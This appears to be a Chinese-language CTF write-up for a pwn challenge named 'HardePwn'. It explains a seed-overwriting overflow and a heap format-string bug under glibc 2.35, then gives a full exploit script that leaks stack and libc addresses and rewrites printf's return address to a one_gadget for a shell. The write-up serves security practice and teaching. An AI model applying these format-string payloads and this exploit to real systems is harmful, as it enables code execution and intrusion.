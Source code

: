 # HardePwn

---

## 目录

[TOC]

---

## 代码审只因-FMT

程序开头要求用户连续输入21个数字，满足`input == (rand() ^ 0x24)+1`，在输入数字前用户可输入`32`个字节的内容，其中`buf [28]`，可溢出4个字节覆盖`seed`，所以`rand()`结果可控

```python
cLib.srand(0)
for i in range(21):
    calc = (cLib.rand() ^ 0x24)+1
    p.sendlineafter("input: ",str(calc))
```

随后用户进入如下流程

```c
void  my_write(char *str)
	write(1, str, strlen(str));
}
void __noreturn heap_fmt(){
    char *ptr = 0;
    while(true){
        ptr = realloc(ptr, 0x1000uLL);
        my_write("input your data ;)\n");
        read(0, ptr, 0x1000uLL);
        printf(ptr);
    }
}
```

明显的**格式化字符串漏洞**

### 分析总结

- 问题1:
  - 程序在死循环中，且没有合法退出途径
- 问题2：
  - 用户输入内容不在栈上而在堆中
- 问题3：
  - 题目使用Glibc2.35，各种hook已被弃用

### 利用分析

针对如上问题，给出如下解决方案

- 篡改循环所调函数的返回值来跳出循环
- 通过修改栈帧指向来修改栈中的值

### 利用方法

- 篡改printf返回地址使其指向`oneGadget`
- 篡改`_IO_2_1_stdout_`结构并篡改`_IO_file_jumps->__write`为`system`



---

## Exploit

```python
from MUC.ezpwn import *


#p,pb,libc = init(log="debug",dbg=1,r="47.108.165.60:47698")


p,pb,libc = init(log="debug",dbg=0)
p.sendafter("Welcome to a ctype game!",b"\x00"*32)

cLib.srand(0)
for i in range(21):
    calc = (cLib.rand() ^ 0x24)+1
    p.sendlineafter("input: ",str(calc))

def s(data):
    p.sendafter("input your data ;)\n",sdata(data)+b"\x00")


current = 0
#根据调试得知 ind-15指向r12所在，ind-45为r12所在
def setR12(ptr):#用来设置R12所指栈帧中的低2字节，既在栈中的偏移
    global current
    current = ptr
    s(f"%{ptr&0xFFFF}c%15$hn")
def writeTo(ptr,value,bits=3):
    for i in range(bits):
        val = (value >> (16*i)) & 0xFFfF
        setR12(ptr+(i*2))#设置栈帧光标
        s(f"%{val}c%45$hn")#写入

#泄露R12地址
s("%15$p")
p.recvuntil("0x")
r12 = int(p.recv(12),16)
retPtr = r12-0x140#计算printf返回地址到r12栈帧的偏移
vLog("R12",r12)

#准备4个栈帧来存放返回地址的不同偏移
bufA = r12-0x110
bufB = bufA+8
bufC = bufB+8
bufD = bufC+8

#泄露Libc地址
s("%31$p")
p.recvuntil("0x")
calcLibcBase("__libc_start_main",int(p.recv(12),16)-128)

#向栈中写入目标指针以便格式化字符串时使用
writeTo(bufA,retPtr)
writeTo(bufB,retPtr+2)
writeTo(bufC,retPtr+4)
writeTo(bufD,retPtr+5)

oneGadget = [0xebcf1,0xebcf5,0xebcf8]

og = getAddr(oneGadget[1])
vLog("oneGadget",og)

#因为要一次性写完，所以得拆字节写，总共6个字节拆成1-1-2-2
ogL = og & 0xFFFF
ogH= (og >> 16) & 0xFFFF
ogA = (og >> 32) & 0xFF
ogB = (og >> 40) & 0xFF
if(ogB < ogA):#要从小写到大，不然就寄了
    dLog("GG")
    p.close()
    exit()
if(ogL > ogH):
    dLog("GG")
    p.close()
    exit()

payload = f"%{ogA}c%13$hhn%{ogB-ogA}c%14$hhn%{ogL-ogB}c%11$hn%{ogH-ogL}c%12$hn"
s(payload)

p.interactive()
```

